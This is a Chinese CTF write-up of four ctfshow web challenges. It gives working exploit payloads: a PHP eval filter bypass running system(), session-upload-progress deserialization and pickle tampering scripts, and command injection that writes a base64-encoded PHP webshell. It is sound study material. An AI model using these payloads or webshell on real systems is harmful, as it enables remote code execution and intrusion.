



+++
title = "ctfshow新手杯"
slug = "ctfshow-newbie-cup"
description = "刷"
date = "2024-12-18T11:02:24"
lastmod = "2024-12-18T11:02:24"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["pickle", "session"]
+++

## easy_eval

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];

if(isset($code)){

  $code = str_replace("?","",$code);
  eval("?>".$code);

}
```

过滤了`?`但是不过我们可以利用phtml的方式来插入恶意代码

```
code=<script language="php">system("ls");</script>
```

稍微学了一点前端就看得懂啦，就是一个标签然后里面定义了语言是php本地可以测试的

## 剪刀石头布

题目提示了ini文件

```php
<?php
    ini_set('session.serialize_handler', 'php');
    if(isset($_POST['source'])){
        highlight_file(__FILE__);
    phpinfo();
    die();
    }
    error_reporting(0);
    include "flag.php";
    class Game{
        public $log,$name,$play;

        public function __construct($name){
            $this->name = $name;
            $this->log = '/tmp/'.md5($name).'.log';
        }

        public function play($user_input,$bot_input){
            $output = array('Rock'=>'&#9996;&#127995;','Paper'=>'&#9994;&#127995;','Scissors'=>'&#9995;&#127995;');
            $this->play = $user_input.$bot_input;
            if($this->play == "RockRock" || $this->play == "PaperPaper" || $this->play == "ScissorsScissors"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." Draw</div>\n",FILE_APPEND);
                return "Draw";
            } else if($this->play == "RockPaper" || $this->play == "PaperScissors" || $this->play == "ScissorsRock"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Lose</div>\n",FILE_APPEND);
                return "You Lose";
            } else if($this->play == "RockScissors" || $this->play == "PaperRock" || $this->play == "ScissorsPaper"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Win</div>\n",FILE_APPEND);
                return "You Win";
            }
        }

        public function __destruct(){
                echo "<h5>Game History</h5>\n";
        echo "<div class='all_output'>\n";
                echo file_get_contents($this->log);
        echo "</div>";
        }
    }

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="icon" href="icon.png">
    <title>Rock Paper Scissors</title>
    <!-- post 'source' to view something --> 
    <link rel="stylesheet" href="style.css">
</head>

<?php
    session_start();
    if(isset($_POST['name'])){
        $_SESSION['name']=$_POST['name'];
        $_SESSION['win']=0;
    }
    if(!isset($_SESSION['name'])){
        ?>
        <body>
            <h5>Input your name :</h5>
            <form method="post">
            <input type="text" class="result" name="name"></input>
            <button type="submit">submit</button>
            </form>
        </body>
        </html>
<?php exit();
    }

?>


<body>
<?php
echo "<h5>Welecome ".$_SESSION['name'].", now you win ".$_SESSION['win']." rounds.</h5>";
$Game=new Game($_SESSION['name']);
?>
    <h5>Make your choice :</h5>
    <form method="post">
    <button type="submit" value="Rock" name="choice">&#9996;&#127995;</button>
    <button type="submit" value="Paper" name="choice">&#9994;&#127995;</button>
    <button type="submit" value="Scissors" name="choice">&#9995;&#127995;</button>
    </form>

    <?php
    $choices = array("Rock", "Paper", "Scissors");
    $rand_bot = array_rand($choices);
    $bot_input = $choices[$rand_bot];
    if(isset($_POST["choice"]) AND in_array($_POST["choice"],$choices)){
        $user_input = $_POST["choice"];
        $result=$Game->play($user_input,$bot_input);
        if ($result=="You Win"){
            $_SESSION['win']+=1;
        } else {
            $_SESSION['win']=0;
        }
    } else {
        ?>
        <form method="post">
        <button class="flag" value="flag" name="flag">get flag</button>
        <button class="source" value="source" name="source">show source</button>
        </form>
        <?php
        if(isset($_POST["flag"])){
            if($_SESSION['win']<100){
                echo "<div>You need to win 100 rounds in a row to get flag.</div>";
            } else {
                echo "Here is your flag:".$flag;
            }

        }
    }
    ?>
</body>
</html>
```



session反序列化直接打

```php
<?php
class Game{
    public $log="/var/www/html/flag.php";
}
$a=new Game();
echo '|',serialize($a);
```

```python
import requests
url="http://68da3b00-b4d7-492e-bf21-764061e8ab12.challenge.ctf.show/"
sess="wi"
data={"PHP_SESSION_UPLOAD_PROGRESS":'|O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}'}
files={'file':'1'}
r=requests.post(url,data=data,files=files,cookies={'PHPSESSID':'wi'})
print(r.text)
```

## baby_pickle

```python
import base64
import pickle, pickletools
import uuid
from flask import Flask, request

app = Flask(__name__)
id = 0
flag = "ctfshow{" + str(uuid.uuid4()) + "}"

class Rookie():
    def __init__(self, name, id):
        self.name = name
        self.id = id


@app.route("/")
def agent_show():
    global id
    id = id + 1

    if request.args.get("name"):
        name = request.args.get("name")
    else:
        name = "new_rookie"

    new_rookie = Rookie(name, id)
    try:
        file = open(str(name) + "_info", 'wb')
        info = pickle.dumps(new_rookie, protocol=0)
        info = pickletools.optimize(info)
        file.write(info)
        file.close()
    except Exception as e:
        return "error"

    with open(str(name)+"_info", "rb") as file:
        user = pickle.load(file)

    message = "<h1>欢迎来到新手村" + user.name + "</h1>\n<p>" + "只有成为大菜鸡才能得到flag" + "</p>"
    return message


@app.route("/dacaiji")
def get_flag():
    name = request.args.get("name")
    with open(str(name)+"_info", "rb") as f:
        user = pickle.load(f)

    if user.id != 0:
        message = "<h1>你不是大菜鸡</h1>"
        return message
    else:
        message = "<h1>恭喜你成为大菜鸡</h1>\n<p>" + flag + "</p>"
        return message


@app.route("/change")
def change_name():
    name = base64.b64decode(request.args.get("name"))
    newname = base64.b64decode(request.args.get("newname"))

    file = open(name.decode() + "_info", "rb")
    info = file.read()
    print("old_info ====================")
    print(info)
    print("name ====================")
    print(name)
    print("newname ====================")
    print(newname)
    info = info.replace(name, newname)
    print(info)
    file.close()
    with open(name.decode()+ "_info", "wb") as f:
        f.write(info)
    return "success"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)

```

我就看到一个pickle还有一个ID限制





但是每次固定了是，看看思路

首先在根目录写一个name_info文件并且此时id为1，我们再在change进行id的覆盖为0即可去dacaiji拿flag，此时name就是根目录我们写那个，不过这里我因为工具的问题导致一直打不好，厨子的base64编码不是字节的所以导致python的base64编码就会解析错误，无语了，然后用bp的就好了

```python
import requests
import time

url="http://127.0.0.1:5000/"
payload1="?name=baozongwi"
r1=requests.get(url=url+payload1)
time.sleep(0.03)
print(r1.text)
payload2="change?name=YmFvem9uZ3dp&newname=YmFvem9uZ3dpCnNWaWQKSTAKc2Iu"
r2=requests.get(url=url+payload2)
time.sleep(0.03)
print(r2.text)
payload3="dacaiji?name=baozongwi"
r3=requests.get(url=url+payload3)
print(r3.text)

```

不过这里的话不建议脚本像我这么写，建议还是直接在python里面进行编码

## repairman

进来有个mode，一般0或者1就是admin所以这里换了一下就拿到了源码

```php
Your mode is the guest!hello,the repairman! <?php
error_reporting(0);
session_start();
$config['secret'] = Array();
include 'config.php';
if(isset($_COOKIE['secret'])){
    $secret =& $_COOKIE['secret'];
}else{
    $secret = Null;
}

if(empty($mode)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query']);
    if(empty($mode)) {
        echo 'Your mode is the guest!';
    }
}

function cmd($cmd){
    global $secret;
    echo 'Sucess change the ini!The logs record you!';
    exec($cmd);
    $secret['secret'] = $secret;
    $secret['id'] = $_SERVER['REMOTE_ADDR'];
    $_SESSION['secret'] = $secret;
}

if($mode == '0'){
    //echo var_dump($GLOBALS);
    if($secret === md5('token')){
        $secret = md5('test'.$config['secret']);
        }

        switch ($secret){
            case md5('admin'.$config['secret']):
                echo 999;
                cmd($_POST['cmd']);
            case md5('test'.$config['secret']):
                echo 666;
                $cmd = preg_replace('/[^a-z0-9]/is', 'hacker',$_POST['cmd']);
                cmd($cmd);
            default:
                echo "hello,the repairman!";
                highlight_file(__FILE__);
        }
    }elseif($mode == '1'){
        echo '</br>hello,the user!We may change the mode to repaie the server,please keep it unchanged';
    }else{
        header('refresh:5;url=index.php?mode=1');
        exit;
    }
```

发现这个secret是固定的啊

```php
<?php
$config['secret'] = Array();
echo md5('admin'.$config['secret']);
//da53eb34c1bc6ce7bbfcedf200148106
```

```http
POST /index.php?mode=0 HTTP/1.1
Host: dd995cff-6e77-4426-a656-bf7a631efe8d.challenge.ctf.show
Cookie: cf_clearance=AlLJBGTvGfSx92Z2TE133nsC62L7ZvjHOaMdV6S5Ifc-1734007807-1.2.1.1-ed02RSpjUZJ.8wpVSw_bIQz63q.QPpBfjaeLr9UFebRdQn5K_pmp5RsNDNplRaoZ_7JJ2AC3WmVqUy__CtJPVKRmVhqj4cJ68UVKAUpxeeGs0aWMg49qQzPlywdx7ds.aX9a0osPl_qYm8smseceZmGH21Hiv4lMUmEN8elAGnKbYBXsRTvTc.ojeUDWAFXqq3.zWrK.keENkxpeYJOyvuSYm5mtdIX7ZmaYnVnH8WgesxHgiDfjdD88DrdCPxjmE26q6UYRfoPynd1HbNlMjlQ94qWtLp5zIvRKo8ZJd3y9Fv7j9fa4HHZPB90CrOyllJwZGzWb0DfSSSvIRAkSDQXgkHoIjIA.KQpfAWgYRdSUMLXN9mIrjR0zFOCaEKuD; PHPSESSID=4k7jk5o63gsiqjpub2f6jbssg6;secret=da53eb34c1bc6ce7bbfcedf200148106
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

cmd=ls+>+1.txt
```

好像还是个无回显，写文件就可以了，flag最后发现在config里面

```
echo+"PD89YCRfUE9TVFsxXWA7Pz4="+|+base64+-d+>+shell.php
```

然后发现链接不上，奇怪诶，后面群里讨论了一下，发现antsword有个小小的缺点就是shell能用但是不一定能连，一定要是木马才行比如我这次写的就不是马，因为他不能算成是php，所以链接不上
